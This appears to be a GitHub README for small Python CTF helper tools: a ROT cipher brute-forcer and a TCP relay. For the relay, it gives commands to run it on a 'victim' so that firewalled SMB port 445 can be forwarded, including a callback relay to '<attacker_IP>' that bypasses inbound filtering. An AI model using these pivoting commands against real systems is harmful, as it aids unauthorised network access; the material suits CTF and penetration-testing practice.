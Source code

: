 # python_widgets
A collection of small helper scripts I've used during CTF challenges; all scripts are made with the quick-and-dirty principle, but that doesn't mean they're not useful!

All scripts written for Python 3. More to follow in time.

## Requirements

All requirements have been rolled into one requirements file, to get up and running for all tools:

```
~$ python -m pip install -r requirements.txt
```

Then go!

## rot_hunter

This is the first tool I've published so far and is somehting I use when feeling too lazy to try different rot encodings during CTFs. This tool takes two files as command line arguments, one containing your ciphertext, one containing a dictinary of valid words; the tool will find the most likely rot key and allow you to parse all other options in decreasing order of confidence the solution is good.

I've inluded a couple of test files for your enjoyment; check out the file header or usage info and get started!

## TCP Relay

This tool is a (slightly) simpler version of a netcat relay, without netcat, trickery, magic etc. Just drop the relay on your target and start forwarding TCP ports. 

You should compile your own binary for your systems if you can, but a copy is included in the repo for speediness.

### Examples

To forward a firewalled port (say 445 in this example), over a permitted port (5555), run:

```
C:\> relay.exe -c 127.0.0.1 445 -l 5555
```

And you'll be able to connect straight up to the victim port 5555 to get SMB access; similarly, if all inbound is filetered, you could run a call back relay. On your attacker:

```
attacker@attacker ~$ relay.py -l 4444 -l 9999 -v -t
```

This will set up a loacl relay to catch the callback and serve relay traffic to port 9999; the v and t tags make the tool vun verbosely and tee all data to the console respectively. Now execute a callback relay from the victim:

``` 
C:\relay.exe -c 127.0.0.1 445 -c <attacker_IP> 4444
```

Now you'll be able to access SMB from your **attacker** machine, port 9999. Enjoy!
